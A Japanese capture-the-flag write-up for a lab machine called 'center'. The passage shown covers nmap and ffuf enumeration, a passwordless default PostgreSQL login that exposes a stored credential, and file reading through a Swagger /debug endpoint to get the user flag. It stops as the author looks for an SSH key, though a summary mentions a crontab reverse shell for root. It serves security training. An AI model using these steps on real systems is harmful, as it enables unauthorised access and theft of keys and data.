# center (pentest, medium) writeup
サービスの列挙を通して侵入に必要な情報を収集し、最終的に crontab を使って権限昇格を行うというシンプルな問題。  
列挙の段階で Swagger UI を発見できるかが攻略の最大のポイントとなるだろう。

## TL;DR;

1. postgres (5432) に対して、 `postgres` ユーザ(パスワード無し)侵入、`azami` というユーザのクレデンシャルを入手
1. `http://<target_ip>:8000/docs` から Swagger UI にアクセス、入手したクレデンシャルを使用して `/debug` エンドポイントを実行し、ayumu ユーザのホームディレクトリから `user.txt` を入手
1. `/debug` エンドポイントを実行し、`~/.ssh/id_ed25519` にアクセスしてSSHの秘密鍵を入手。秘密鍵を用いてSSH からログイン。
1. `/tmp` などを確認すると、ayumu ユーザは tmux を使用してセッション管理をしていることが確認できる。`tmux a` を実行してセッションに接続
1. セッションに `samezima` という別のユーザが存在。samezima ユーザから `sudo -l` を実行すると、NOPASSWORD で cronjob を編集できる権限をもつと発覚
1. crontab を書き換え、Reverse shell を実行し root シェル(root.txt)を入手


## Reconnaissance

まずは nmap でサービスの列挙をします。

```shell=
$ nmap -n -4 -sV -A -Pn -p1-65535 <target_ip>
Starting Nmap 7.94 ( https://nmap.org ) at 2025-06-11 10:17 EDT
Nmap scan report for <target_ip>
Host is up (0.0015s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ec:a1:6c:a4:a3:cf:38:84:ac:75:c2:a6:37:b9:0e:da (ECDSA)
|_  256 1a:71:7b:f3:43:8e:3b:77:5a:41:c3:fd:a3:84:dd:6b (ED25519)
80/tcp   open     http       Tornado httpd 6.5.1
|_http-title: Streamlit
|_http-server-header: TornadoServer/6.5.1
5432/tcp open     postgresql PostgreSQL DB 9.6.0 or later
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     VFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 3.0 to 3.0
|     Fbackend_startup.c
|     L679
|_    RProcessStartupPacket
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ayumi
| Subject Alternative Name: DNS:ayumi
| Not valid before: 2025-06-11T14:05:41
|_Not valid after:  2035-06-09T14:05:41
8000/tcp open     http-alt   uvicorn
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (application/json).
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     date: Wed, 11 Jun 2025 14:17:27 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     {"detail":"Not Found"}
|   RPCCheck, Socks4, Socks5, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     date: Wed, 11 Jun 2025 14:17:27 GMT
|     server: uvicorn
|     content-type: text/plain; charset=utf-8
|     content-length: 30
|     connection: close
|_    Invalid HTTP request received.
8501/tcp filtered cmtp-mgt
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5432-TCP:V=7.94%I=7%D=6/11%Time=68498FF2%P=x86_64-pc-linux-gnu%r(SM
SF:BProgNeg,90,"E\0\0\0\x8fSFATAL\0VFATAL\0C0A000\0Munsupported\x20fronten
SF:d\x20protocol\x2065363\.19778:\x20server\x20supports\x203\.0\x20to\x203
SF:\.0\0Fbackend_startup\.c\0L679\0RProcessStartupPacket\0\0");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8000-TCP:V=7.94%I=7%D=6/11%Time=68498FF7%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,9A,"HTTP/1\.1\x20404\x20Not\x20Found\r\ndate:\x20Wed,\x2011\x2
SF:0Jun\x202025\x2014:17:27\x20GMT\r\nserver:\x20uvicorn\r\ncontent-length
SF::\x2022\r\ncontent-type:\x20application/json\r\n\r\n{\"detail\":\"Not\x
SF:20Found\"}")%r(X11Probe,C0,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ndate:
SF:\x20Wed,\x2011\x20Jun\x202025\x2014:17:27\x20GMT\r\nserver:\x20uvicorn\
SF:r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\ncontent-length:\x20
SF:30\r\nconnection:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20receive
SF:d\.")%r(FourOhFourRequest,9A,"HTTP/1\.1\x20404\x20Not\x20Found\r\ndate:
SF:\x20Wed,\x2011\x20Jun\x202025\x2014:17:27\x20GMT\r\nserver:\x20uvicorn\
SF:r\ncontent-length:\x2022\r\ncontent-type:\x20application/json\r\n\r\n{\
SF:"detail\":\"Not\x20Found\"}")%r(Socks5,C0,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\ndate:\x20Wed,\x2011\x20Jun\x202025\x2014:17:27\x20GMT\r\nserv
SF:er:\x20uvicorn\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\ncont
SF:ent-length:\x2030\r\nconnection:\x20close\r\n\r\nInvalid\x20HTTP\x20req
SF:uest\x20received\.")%r(Socks4,C0,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:ndate:\x20Wed,\x2011\x20Jun\x202025\x2014:17:27\x20GMT\r\nserver:\x20uv
SF:icorn\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\ncontent-lengt
SF:h:\x2030\r\nconnection:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20r
SF:eceived\.")%r(HTTPOptions,9A,"HTTP/1\.1\x20404\x20Not\x20Found\r\ndate:
SF:\x20Wed,\x2011\x20Jun\x202025\x2014:17:27\x20GMT\r\nserver:\x20uvicorn\
SF:r\ncontent-length:\x2022\r\ncontent-type:\x20application/json\r\n\r\n{\
SF:"detail\":\"Not\x20Found\"}")%r(RTSPRequest,9A,"HTTP/1\.1\x20404\x20Not
SF:\x20Found\r\ndate:\x20Wed,\x2011\x20Jun\x202025\x2014:17:27\x20GMT\r\ns
SF:erver:\x20uvicorn\r\ncontent-length:\x2022\r\ncontent-type:\x20applicat
SF:ion/json\r\n\r\n{\"detail\":\"Not\x20Found\"}")%r(RPCCheck,C0,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\ndate:\x20Wed,\x2011\x20Jun\x202025\x2014:
SF:17:27\x20GMT\r\nserver:\x20uvicorn\r\ncontent-type:\x20text/plain;\x20c
SF:harset=utf-8\r\ncontent-length:\x2030\r\nconnection:\x20close\r\n\r\nIn
SF:valid\x20HTTP\x20request\x20received\.");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
```
port 80, 8000 に http サーバが稼働しており、port 5432 では postgres データベースが稼働して外部からアクセスできることがわかりました。  
port 80 へアクセスしてみるとファイルをアップロードできそうなWebサーバが稼働していることがわかりましたが、ログインしなければ何もできないようです。






次に ffuf を用いて http サーバのディレクトリを列挙します。すると、port 8000 に `/docs` というページがあることが確認できます。

```shell=
$ ffuf -u http://<target_ip>:8000/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://<target_ip>:8000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 405, Size: 31, Words: 3, Lines: 1, Duration: 3ms]
    * FUZZ: login

[Status: 200, Size: 931, Words: 150, Lines: 31, Duration: 12ms]
    * FUZZ: docs

[Status: 401, Size: 30, Words: 2, Lines: 1, Duration: 25ms]
    * FUZZ: me

[Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 11ms]
    * FUZZ: debug

[Status: 200, Size: 891, Words: 176, Lines: 31, Duration: 18ms]
    * FUZZ: redoc

:: Progress: [87664/87664] :: Job [1/1] :: 5882 req/sec :: Duration: [0:00:20] :: Errors: 0 ::

```
アクセスしてみると、Swagger UI が稼働していました。



そして、`/debug`というファイルを閲覧できそうな面白いエンドポイントも存在します。この `/debug` というエンドポイントを実行したいですが、これもログインをしないと実行できないようです。なので、ログインできるクレデンシャルを探します。



それでは、他のサービスからクレデンシャルを探します。pgcli コマンドを使って postgres に デフォルトユーザ `postgres`、パスワードなしでアクセスを試みると、コネクションが確立されデータベース `center` も閲覧できることがわかります。  
ここからさらに `users` テーブルを確認すると、`azami` というユーザのクレデンシャルが保存されていることがわかりました。

```shell=
$ pgcli -h <target_ip> -U postgres
/usr/lib/python3/dist-packages/pgspecial/main.py:241: SyntaxWarning: invalid escape sequence '\w'
  caller (e.g. \watch).
Server: PostgreSQL 17.5 (Ubuntu 17.5-1.pgdg24.04+1)
Version: 3.5.0
Home: http://pgcli.com
postgres@10:postgres> \l
+-----------+----------+----------+-------------+-------------+-----------------------+
| Name      | Owner    | Encoding | Collate     | Ctype       | Access privileges     |
|-----------+----------+----------+-------------+-------------+-----------------------|
| center    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | <null>                |
| postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | <null>                |
| template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres           |
|           |          |          |             |             | postgres=CTc/postgres |
| template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres           |
|           |          |          |             |             | postgres=CTc/postgres |
+-----------+----------+----------+-------------+-------------+-----------------------+
SELECT 4
Time: 0.012s
postgres@10:postgres> \c center
You are now connected to database "center" as user "postgres"
Time: 0.018s
postgres@10:center> \d
+--------+-------------------+----------+----------+
| Schema | Name              | Type     | Owner    |
|--------+-------------------+----------+----------|
| public | challenges        | table    | postgres |
| public | challenges_id_seq | sequence | postgres |
| public | users             | table    | postgres |
| public | users_id_seq      | sequence | postgres |
+--------+-------------------+----------+----------+
SELECT 4
Time: 0.012s
postgres@10:center> select * from users;
+----+----------+---------------+-------------------------------+
| id | username | password      | created_at                    |
|----+----------+---------------+-------------------------------|
| 1  | azami    | glasses2world | 2025-06-13 18:56:27.179336+00 |
+----+----------+---------------+-------------------------------+
SELECT 1
Time: 0.007s
postgres@10:center>
```

発見したクレデンシャルを使って `/debug` エンドポイントが操作できるか確認してみましょう。 

## Initial Access

再度 Swagger UI にアクセスして `Authorize` ボタンからクレデンシャルを入力します。すると、無事にログインが成功しました。




試しに先程の `/debug` を実行すると、課題がアップロードされている `/home/ayumu/center/submissions` ディレクトリのファイル一覧が取得できることが確認できます。



このエンドポイントはディレクトリのパスを自由に変更できそうです。また、 `submissions` は `/home/ayumu` 配下のディレクトリなので、Swagger UI を動かしているユーザは、 `ayumu` である可能性が高いと考えられます。

そこで、`ayumu` のホームディレクトリを見れる可能性が高いと考え `/home/ayumu` を filepath で指定し、クエリを実行します。
すると、 `ayumu` ユーザのホームディレクトリのファイル一覧が予想通り表示されました。


`ayumu` ユーザのホームディレクトリには、ミッション説明文で「このミッションの解答」とされている user.txt があります。 `/debug` エンドポイントの説明に「ファイルを指定するとファイルの中身を確認できます。」と書かれているので、filepath に `/home/ayumu/user.txt` を指定してみると、ファイルの中身を取得できます。



### flag(user.txt)
`flag{K41T41_the_0ccult_0f_vuln3r4b1l1ty!}`

## Initial Access (cont.)

フラグファイルは取得できましたが、より高い権限を得るためシェルアクセスを取得する方法を考えます。

まず、`/home/ayumu` にシェルアクセスにつながる情報がないかを探します。
これらのディレクトリの中で、 `.ssh` にはSSHに使用される秘密鍵が保存されていることがあります。

